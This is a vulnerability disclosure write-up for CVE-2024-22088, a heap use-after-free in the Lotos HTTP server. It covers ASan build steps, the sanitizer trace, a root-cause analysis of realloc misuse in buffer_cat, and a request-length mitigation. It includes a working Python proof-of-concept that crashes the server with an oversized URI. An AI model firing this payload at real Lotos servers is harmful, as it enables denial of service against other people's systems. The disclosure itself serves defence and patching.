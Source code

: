 # CVE-2024-22088

After executing my fuzz tests I discovered a remote use-after-free vulnerability the Lotos HTTP server through commit 3eb36cc in the function static inline size_t buffer_avail(const buffer_t *pb) at buffer.h, line 25:

```
static inline size_t buffer_avail(const buffer_t *pb) { return pb->free; } 
```

Any project that utilizes lotos (including the existing forks of this repo) are potentially vulnerable.  Depending on the implementation, this can lead to undefined behavior, denial of service, or authentication bypass. 

### Makefile Modifications

The following modifications were made to the Makefile to compile lotos with address sanitizer and debug symbols. The purpose of this is to track and verify the location of the use-after-free vulnerability:

```
CFLAGS=-std=c99 -Wall -O3 -DNDEBUG -DUSE_MEM_POOL=1 -fsanitize=address -g
OPTFLAGS=

OBJS=misc.o ssstr.o dict.o lotos_epoll.o buffer.o request.o response.o \
 connection.o http_parser.o server.o mem_pool.o main.o

lotos : $(OBJS)
	$(CC) $(CFLAGS) $^ -o $@ $(OPTFLAGS)

test :
	make -C ./test
	make test -C ./test

format :
	find . -iname '*.[ch]' -exec clang-format -i -style="{ColumnLimit: 80}" {} +

clean :
	rm -f *.o lotos

.PHONY : test clean format
```

### Compiling Lotos

```
$ cd lotos/src/
$ make && make test
```

### Proof of Concept Python3 Script

Save the following script to a file named poc.py. The script will send an HTTP request with a malformed URI to lotos and wait for a response.  More specifically, the code will send an HTTP request with a URI containing 20,000 bytes:

```
#!/usr/bin/env python3

import socket


sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("localhost", 8888))
sock.send(b"GET /"+b"?"*20000+b" HTTP/1.1\r\nHost:localhost:8001\r\n\r\n")
response = sock.recv(4096)
sock.close()
```

### Starting Lotos

```
./lotos -r ../www
```

### Executing our Python3 Script

```
# python3 poc.py
```

### Address Sanitizer Output

The following output was produced by address sanitizer: 

```
==415636==ERROR: AddressSanitizer: heap-use-after-free on address 0x625000002904 at pc 0x5585539a14ec bp 0x7ffc148a9370 sp 0x7ffc148a9368
READ of size 4 at 0x625000002904 thread T0                                                                                                                                      
    #0 0x5585539a14eb in buffer_avail /home/kali/projects/fuzzing/lotos/src/buffer.h:25
    #1 0x5585539a14eb in buffer_cat /home/kali/projects/fuzzing/lotos/src/buffer.c:44
    #2 0x5585539a1935 in request_recv /home/kali/projects/fuzzing/lotos/src/request.c:137
    #3 0x5585539a34f8 in request_handle /home/kali/projects/fuzzing/lotos/src/request.c:144
    #4 0x55855399fc4a in main /home/kali/projects/fuzzing/lotos/src/main.c:81
    #5 0x7fc8c68456c9 in __libc_start_call_main ../sysdeps/nptl/libc_start_call_main.h:58
    #6 0x7fc8c6845784 in __libc_start_main_impl ../csu/libc-start.c:360
    #7 0x55855399fe80 in _start (/home/kali/projects/fuzzing/lotos/src/lotos+0x6e80) (BuildId: f69cadb3b591a9b1911fbc4bf465035606fb00ae)

0x625000002904 is located 4 bytes inside of 8201-byte region [0x625000002900,0x625000004909)
freed by thread T0 here:                                                                                                                                                        
    #0 0x7fc8c6ad74b5 in __interceptor_realloc ../../../../src/libsanitizer/asan/asan_malloc_linux.cpp:85
    #1 0x5585539a13f1 in buffer_cat /home/kali/projects/fuzzing/lotos/src/buffer.c:60

previously allocated by thread T0 here:
    #0 0x7fc8c6ad85bf in __interceptor_malloc ../../../../src/libsanitizer/asan/asan_malloc_linux.cpp:69
    #1 0x5585539a11bd in buffer_new /home/kali/projects/fuzzing/lotos/src/buffer.c:10
    #2 0x5585539a11bd in buffer_init /home/kali/projects/fuzzing/lotos/src/buffer.c:7

SUMMARY: AddressSanitizer: heap-use-after-free /home/kali/projects/fuzzing/lotos/src/buffer.h:25 in buffer_avail
Shadow bytes around the buggy address:
  0x625000002680: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x625000002700: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x625000002780: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x625000002800: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x625000002880: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
=>0x625000002900:[fd]fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd
  0x625000002980: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd
  0x625000002a00: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd
  0x625000002a80: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd
  0x625000002b00: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd
  0x625000002b80: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07 
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
==415636==ABORTING

```

The error occurs in the buffer_avail function, which is called from buffer_cat in the buffer.c file. The problematic access occurs after a call to realloc in buffer_cat: 

```
/* realloc */
size_t cur_len = buffer_len(pb);
size_t new_len = cur_len + nbyte;
/* realloc strategy */
if (new_len < BUFFER_LIMIT)
new_len *= 2;
else
new_len += BUFFER_LIMIT;

npb = realloc(pb, sizeof(buffer_t) + new_len + 1);
```

When realloc is called, it may move the memory block to a new location if the new size cannot be accommodated in the existing space. This means the pointer to the buffer (buffer_t *pb) could become invalid if realloc moves the memory.

After reallocating, any existing pointers to the old memory location become invalid. If you try to use the old pointer (pb) without updating it to the new memory location returned by realloc it leads to undefined behavior, which is what AddressSanitizer is catching.

### Mitigation

There are many moving pieces in this repo, but the following code added to request.c can mitigate this vulnerability.  Ultimately to maintain the current functionality and prevent the use-after-free vulnerability, a check is added to line 130 in request.c so all requests greater than 5000 bytes are dropped:

Old Code in request.c, line 130:
```
if (len == ERROR) {
```

Updated Code in request.c, line 130:
```
if (len == ERROR || len>5000) {

```

The length of 5000 can be modified to meet your specific needs.  Keep in mind, the use-after-free occurs at roughly 8154 bytes in the URI.  

### References

* https://cwe.mitre.org/data/definitions/416.html
* https://learn.snyk.io/lesson/use-after-free/
* https://owasp.org/www-community/vulnerabilities/Using_freed_memory#:~:text=Use%20after%20free%20errors%20occur,conditions%20and%20other%20exceptional%20circumstances
* https://www.cve.org/CVERecord?id=CVE-2024-22088
  